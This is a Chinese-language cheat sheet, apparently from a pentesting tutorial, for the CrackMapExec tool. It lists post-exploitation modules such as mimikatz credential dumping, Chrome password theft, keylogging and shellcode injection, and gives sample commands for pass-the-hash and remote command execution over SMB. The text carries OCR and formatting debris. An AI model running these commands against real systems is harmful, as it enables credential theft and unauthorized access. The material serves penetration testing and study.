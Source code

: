 ```
可用模块  

```

```
`日志的保存位置``~/.cme/logs``查看协议可用后续模块``>crackmapexec smb -L`
```

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

```
`常用的模块``Get-ComputerDetails获取计算机信息``Bloodhound 执行一个BloodHound脚本获取信息``empire_exec 与empire交互``enum_avproducts 列举AV产品``enum_chrome 获取目标chrome中保存的密码``get_keystrokes 键盘记录``get_netdomaincontroller 列出所有域控制器``get_netrdpsession 列出活动的RDP会话``gpp_autologin 从域控中registry.xml查找自动登录的账户密码``gpp_password 组策略凭据中返回GPP密码``invoke_sessiongopher 保存putty,winscp,filezilla,superputty rdp的session``invoke_vnc 注入一个vnc客户端到内存``met_inject 与msf交互``mimikatz 调用mimikatz模块``mimikatz_enum_chrome 使用mimikatz解密chrome保存的密码``mimikatz_enum_vault_creds 解密windows凭据管理器中保存的密码``mimikittenz 执行咪咪猫(windows密码获取软件)``multirdp 允许多用户登录RDP``netripper 通过API hooking截取平常``pe_inject DLL/EXE注入``rdp 开启或关闭RDP``shellcode_inject 注入shellcode``tokens 列举可用token``uac 查看UAC是否开启``wdigest 开启或关闭wdigest``web_delivery 执行exploit/multi/script/web_delivery模块``查看模块的选项``>crackmapexec smb -M module --options`
```




```

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

```


  

```
使用方式  

```

```
>crackmapexec smb <target(s)> -u user -p 'P@ssw0rd' -M module -o 参数=值
```

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

PTH  

```
`>crackmapexec smb <target(s)> -u username -H LMHASH:NTHASH``>crackmapexec smb <target(s)> -u username -H NTHASH`
```

```
执行命令  

```

```
>crackmapexec smb 192.168.0.98 -u y -p 'qwe12323' -x 'command'
```

